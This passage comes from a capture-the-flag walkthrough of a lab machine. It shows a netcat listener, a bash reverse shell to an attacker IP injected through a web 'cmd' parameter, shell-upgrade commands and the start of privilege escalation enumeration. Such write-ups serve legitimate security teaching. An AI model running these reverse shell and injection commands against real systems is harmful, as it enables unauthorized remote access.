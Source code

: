 ```text
nc -nlvp 1234
```

Then run the _whoami_ request again and send it to _Repeater._ You will have to disable the “File extension” in _Proxy_ &gt; _Options_ &gt; _Intercept Client Requests_ in order to intercept the request.

Next, visit [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and add the bash reverse shell in the ‘_cmd_’ parameter.

```text
bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'
```

Make sure to URL encode it before you send the request \(Ctrl + U\).

![](https://miro.medium.com/max/763/1*l2rqNKH-wB3YvkbElAG34g.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the web daemon user _apache_ and we don’t have privileges to view the user.txt flag. Therefore, we need to escalate our privileges.

## Privilege Escalation <a id="eb18"></a>

The _user.txt_ flag is in the home directory of the user _guly_. So we’ll either have to escalate our privileges to _guly_ or _root_.

I ran the _LinEnum.sh_ and _pspy64_ programs but didn’t find anything unusual. I did notice that in the home directory of _guly_ there’s a php script and a crontab file. We have read permission on both of them.

```text
bash-4.2$ ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
```
